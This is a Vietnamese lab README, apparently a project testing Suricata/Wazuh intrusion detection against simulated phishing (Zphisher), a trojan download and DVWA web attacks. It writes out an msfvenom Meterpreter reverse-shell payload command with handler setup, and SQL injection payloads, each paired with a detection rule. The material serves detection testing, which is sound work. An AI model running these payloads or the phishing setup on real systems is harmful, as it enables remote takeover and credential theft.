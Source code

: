 Dưới đây là 1 số kịch bản tấn công để kiểm tra hệ thống giám sát phát hiện xâm nhập có hoạt động hiệu quả  
Các rule được triển khai cho các kịch bản:  
![Rule set](Image/Ruleset.png)  
  
## Kịch bản 1: tấn công Phising
Mục tiêu:  
- Thu thập trái phép thông tin xác thực (username và password) của người dùng.
- Mô phỏng tấn công xã hội nhằm đánh giá khả năng nhận diện các mối đe dọa của người dùng nội bộ.
- Ghi nhận các hành vi đáng ngờ và cảnh báo khi có truy cập đến các miền/phương thức tunneling thường dùng trong phishing.
  
Dùng công cụ Zphiser để tấn công vào máy nạn nhân  
![](Image/KB1_1.png)  
  
Zphiser sẽ tạo trang web giả mạo để dụ nạn nhân điền thông tin quan trọng như username, password  
![](Image/KB1_2.png)  
  
Khi nạn nhân điền xong thông tin thì sẽ được gửi qua máy kẻ tấn công
![](Image/KB1_3.png)  
![](Image/KB1_4.png)  
  
Rule để cảnh báo:  
alert tls any any -> any any (msg:"[HUNTING] Phising detect"; tls_sni; content:"trycloudflare.com"; nocase; classtype:policy-violation; sid:4000002; rev:1;)  
  
Giải thích rule:  
- tls_sni: kiểm tra trường SNI (Server Name Indication) trong TLS handshake  
- content:"trycloudflare.com": phát hiện người dùng đang truy cập vào miền này (thường dùng để ẩn IP thật khi phishing)  
- nocase: không phân biệt chữ hoa/thường  
- classtype:policy-violation: vi phạm chính sách (truy cập tên miền bị cấm)
  
Phía suricata  
![](Image/KB1_5.png)  
  
Phía Wazuh  
![](Image/KB1_6.png)  
  
![](Image/KB1_7.png)  
  
## Kịch bản 2: tấn công truyền mã độc
Mục tiêu:
- Tấn công vào người dùng khi truy cập khởi  động  
- Tạo một ứng dụng uy tín đánh lừa người dùng tải về
  
Tạo payload trojan.exe để lừa người dùng tải xuống:  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.39 LPORT=4444 -f exe > trojan.exe  
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.119.39 ( máy tấn công )  
set LPORT 4444  
exploit  
  
![](Image/KB2_1.png)  
  
![](Image/KB2_2.png)  
  
Mở port 80
![](Image/KB2_3.png)  
  
Máy nạn nhân sẽ truy cập 192.168.119.2:4444/trojan.exe → tự động tải mã độc về 
![](Image/KB2_4.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"[Trojan EXE Download Detected - MZ Header]"; flow: to_client, established; file_data; content:"MZ"; depth:2; classtype:trojan-ac tivity; sid:1002005; rev:1;)  
  
Giải thích rule:  
- file_data: cho phép Suricata kiểm tra nội dung file trong HTTP response  
- content:"MZ": MZ là chữ ký đầu tiên của file .exe (Windows executable)  
- depth:2 : chỉ kiểm tra 2 byte đầu tiên của file  
- flow: to_client: dữ liệu từ server trả về client  
- classtype:trojan-activity: hoạt động phần mềm độc hại
  
Phía suricata  
![](Image/KB2_5.png)  
  
Phía Wazuh
![](Image/KB2_6.png)  
  
## Kịch bản 3: tấn công web
Mục tiêu:  
- Truy cập trái phép vào thông tin nội bộ  
- Thực hiện các hành vi khai thác lỗ hổng bảo mật ứng dụng web  
- Kiểm tra mức độ phòng thủ và phát hiện của hệ thống giám sát  
Môi trường kiểm thử: website DVWA  
  
### SQL injection
Dùng các payload sau để kiểm tra SQL injection:  
‘ OR 1=1#  

' union select table_name,null from information_schema.tables#  

Rule cảnh báo:  
alert http any any -> any any (msg:"[ALERT] SQL Injection Keywords Detected"; flow: to_server, established; content:"'"; http_uri; pcre:"/('|- - |#|%27|%23)\s*(or | and )?|union\s+select/i"; classtype:web-application-attack; sid:1000021; rev:3;)  
  
Giải thích rule:  
- flow: to_server, established: lưu lượng từ client đến server qua kết nối HTTP đã thiết lập  
- content:"'" + http_uri: kiểm tra có dấu ' trong URI  
- pcre:"/('|- - |#|%27|%23)\s*(or | and )?|union\s+select/i": Regex tìm các pattern SQL Injection như ' or 1=1, --, #, %27, union select  
- classtype:web-application-attack: tấn công ứng dụng web
  
Phía suricata  
  
Phía Wazuh  
  
### XSS (Reflected, Restored)
#### XSS Reflected
Payload XSS Reflected  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"Reflected XSS attempt - <script>"; content:"<script>"; nocase; http_uri; sid: 1001001; rev:1;)  
alert http any any -> any any (msg:"Reflected XSS attempt - <img src=x onerror>"; content:"<img src=x onerror"; nocase; http_uri; sid:1001002; rev:1;) alert http any any -> any any (msg:"Reflected XSS attempt - alert("; content:"alert("; nocase; http_uri; sid:1001003; rev:1;)  

Giải thích rule:  
- http_uri: kiểm tra trên phần URI  
- content:"<script>", "<img src=x onerror", "alert(": các payload XSS phổ biến  
- nocase: không phân biệt hoa thường  
  
Phía suricata
Phía Wazuh  
#### XSS Restored
Payload XSS Restored  

Rule cảnh báo:  
alert http any any -> any any (msg:"Stored XSS Detected in HTTP response"; content:"<script>"; nocase; http_server_body; sid:1001004; rev:1;)  
alert http any any -> any any (msg:"Stored XSS Detected - <img src=x onerror>"; content:"<img src=x onerror"; nocase; http_server_body; sid: 1001005; rev:1;)  

Giải thích rule:  
- http_server_body: kiểm tra nội dung phần body trả về từ server
- content:"<script>", "<img src=x onerror": payload XSS điển hình

Phía suricata  
Phía Wazuh  
### Brute Force
